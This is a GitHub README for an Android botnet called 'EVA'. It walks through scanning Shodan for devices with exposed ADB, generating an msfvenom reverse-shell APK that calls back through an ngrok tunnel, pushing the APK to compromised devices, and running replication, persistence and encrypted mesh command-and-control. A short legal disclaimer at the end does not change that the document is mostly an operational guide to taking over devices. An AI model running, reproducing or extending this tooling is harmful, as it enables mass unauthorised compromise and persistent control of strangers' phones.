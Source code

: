  # EVA ADB Botnet

**Purpose:** Ethical cybersecurity research, mesh-based botnet exploration, long-term persistent control of Android devices via open ADB, and encrypted peer-to-peer botnet mesh command.

---

## Getting Started (Clone + Setup)

To install EVA on any Linux system:

### 1. Clone the repository

```bash
git clone https://github.com/ekomsSavior/Eva_adb_botnet.git
cd Eva_adb_botnet
````

### 2. Install dependencies

```bash
sudo apt update && sudo apt install -y android-tools-adb python3-pip metasploit-framework
pip3 install pycryptodome requests
mkdir -p bots
```

---

## Optional ADB Install (Manual Method)

If you're having issues with the packaged ADB:

```bash
sudo mkdir -p /opt/android-platform-tools
cd /opt/android-platform-tools
sudo wget https://dl.google.com/android/repository/platform-tools-latest-linux.zip
sudo unzip platform-tools-latest-linux.zip
sudo mv platform-tools/* .
sudo rm -r platform-tools platform-tools-latest-linux.zip
```

Then add ADB to your PATH permanently:

```bash
echo 'export PATH=$PATH:/opt/android-platform-tools' >> ~/.bashrc
source ~/.bashrc
```

---

## Ngrok Setup

EVA uses ngrok to forward ADB and payload ports publicly.

### 1. Download & install ngrok

```bash
cd ~/Eva_adb_botnet
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
chmod +x ngrok
```

### 2. Add your ngrok auth token

```bash
./ngrok config add-authtoken <your_token_here>
```

### 3. Start a tunnel for your payload listener

```bash
./ngrok tcp 1337
```

Copy the **forwarded ngrok domain and port** — you’ll need them in the payload config below.

---

##  One-Time Configuration (Before Launch)

### 1. Set your Shodan API key

Edit `adb_reaper.py` and replace this:

```python
SHODAN_API_KEY = 'YOUR_SHODAN_API_KEY'
```

---

### 2. Configure msfvenom payload generation

Edit `metasploit_launcher.py` (which now builds the payload using `msfvenom`):

```python
LHOST = "0.tcp.ngrok.io"     # your forwarded ngrok domain
LPORT = "12345"              # your forwarded port
OUTPUT = "adb_payload.apk"   # payload filename
```

This file generates a ready-to-push APK payload.

---

### 3. Update payload path in dropper

Edit `adb_dropper.py`:

```python
ADB_PAYLOAD = "adb_payload.apk"
```

EVA will push this APK to every connected ADB device.

---

### 4. Set AES encryption key (optional but recommended)

Edit `jeangrey_crypto.py`:

```python
SECRET_KEY = b'ChangeThis16Byte!'  # Use a secure 16-byte AES key
```

---

## Full Botnet Launch

```bash
python3 EVA_launcher.py
```

This will:

* Generate your payload via `msfvenom`
* Scan Shodan for exposed Android ADB targets
* Push the payload to infected devices
* Start encrypted mesh communication
* Begin peer discovery + replication
* Launch AI triggers + EVA Core

---

## View Active Bots

```bash
python3 eva_dashboard.py
```

* Shows IPs, tags, status
* Auto-refreshes every 3s

---

## Send Commands to Bots

```bash
python3 eva_core.py
```

Supported commands:

* `scan` – search nearby ADB devices
* `drop` – re-deploy payload
* `report` – show bot state
* `shutdown` – terminate a bot

---

## Autonomous AI Trigger Loop

```bash
python3 eva_ai_trigger.py
```

Bots will:

* Respond to mesh commands instantly
* Auto-scan, replicate, and report
* Operate continuously on mesh triggers

---

## Replication + Persistence

Bots will:

* Replicate to local subnet ADB devices
* Update `jeangrey_state.json` regularly
* Persist across reboot via `.bashrc`

Manual persistence install:

```bash
adb push jeangrey_persist.sh /sdcard/Download/
adb shell sh /sdcard/Download/jeangrey_persist.sh
```

---

## Bot Management

```bash
python3 state_editor.py
```

Allows you to:

* Rename bots
* Tag/untag
* View/edit JSON
* Delete infected nodes

---

## Directory Layout

```
Eva_adb_botnet/
├── EVA_launcher.py
├── metasploit_launcher.py       ← Generates msfvenom payload
├── adb_dropper.py               ← Pushes APK payload
├── adb_reaper.py                ← Shodan scraper
├── eva_core.py                  ← Sends mesh commands
├── eva_ai_trigger.py           ← Bot AI responder
├── eva_dashboard.py            ← Live bot status viewer
├── jeangrey_android.py         ← Bot implant logic
├── jeangrey_persist.sh         ← Android persistence
├── jeangrey_crypto.py
├── jeangrey_mesh.py
├── jeangrey_replication.py
├── jeangrey_tunnel.py
├── jeangrey_injector.py
├── state_editor.py
├── ngrok
└── bots/
    └── bot_<ip>/
        └── jeangrey_state.json
```

---

## ⚠️ Legal & Ethical Notice

EVA is a research framework designed for:

* Educational use
* Controlled environments
* Enviroments you have permission to test on.

**Do not deploy against unauthorized targets. Misuse may be illegal. You are responsible.**

---

## Vision

EVA is not just a botnet — she's a **mesh-aware framework**.
She replicates. She listens. She obeys.

